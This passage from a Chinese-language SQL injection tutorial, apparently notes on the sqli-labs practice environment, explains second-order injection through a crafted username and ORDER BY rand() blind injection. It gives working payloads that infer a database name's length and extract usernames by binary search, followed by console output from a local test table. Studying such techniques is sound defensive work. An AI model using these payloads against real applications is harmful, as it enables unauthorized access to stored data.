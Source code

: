 可以看到`add_email`和`list_email`中所使用的`usernane`均来自数据库查询得到的结果,假设在注册时我们注册一个名为`' or 1#`的用户

在注册过程中,由于存在`mysqli_real_escape_string`,敏感字符会被转义后再执行sql语句,但是从数据库取出`username`后,并没有执行相应的`mysqli_real_escape_string`,因此`SELECT email,time FROM email where username = '$username'`会变成`SELECT email,time FROM email where username = '' or 1#'`因此造成了二次注入

# 注入技巧

## order by注入

`SELECT`语句使用`ORDER BY`子句将查询数据排序后再返回数据

1. 利用`rand`进行注入

`select * from users order by rand(0);`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/huaQ@master/%E9%9D%B6%E5%9C%BA/sqli-labs(%E5%B7%B2%E5%AE%8C%E6%88%90)/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202021-11-03%20095858.png)

`select * from users order by rand(1);`

![](https://cdn.jsdelivr.net/gh/AMDyesIntelno/huaQ@master/%E9%9D%B6%E5%9C%BA/sqli-labs(%E5%B7%B2%E5%AE%8C%E6%88%90)/%E5%B1%8F%E5%B9%95%E6%88%AA%E5%9B%BE%202021-11-03%20095932.png)

可以看到由于`rand`结果的不同导致了排序结果的不同,利用这一点可以进行注入

例如`select * from users order by rand(length(database())=8);`可以根据回显数据排序的方式的不同来判断`database`名称的长度

`select * from users order by rand(ascii(substr((select group_concat(username) from users),1,1))<50);`二分法确定名字

>原理

```
mysql root@localhost:sql_injection_test> select id,rand(0) from table1;
+----+---------------------+
| id | rand(0)             |
+----+---------------------+
| 1  | 0.15522042769493574 |
| 2  | 0.620881741513388   |
| 3  | 0.6387474552157777  |
| 4  | 0.33109208227236947 |
+----+---------------------+
4 rows in set
Time: 0.010s
mysql root@localhost:sql_injection_test> select id,rand(0) from table1 order by rand(0);
+----+---------------------+
| id | rand(0)             |
+----+---------------------+
| 1  | 0.15522042769493574 |
| 4  | 0.33109208227236947 |
| 2  | 0.620881741513388   |
| 3  | 0.6387474552157777  |
+----+---------------------+
4 rows in set
Time: 0.008s
mysql root@localhost:sql_injection_test> select * from table1 order by rand(0);
+----+----------+----------+-----------------+
| id | username | password | email           |
+----+----------+----------+-----------------+
| 1  | admin    | admin!@# | admin@admin.org |
| 4  | mike     | asdfqwer | mike@gmail.com  |
| 2  | tim      | 123456   | tim@qq.com      |
| 3  | mike     | asdfqwer | mike@gmail.com  |
+----+----------+----------+-----------------+
4 rows in set
Time: 0.008s
```
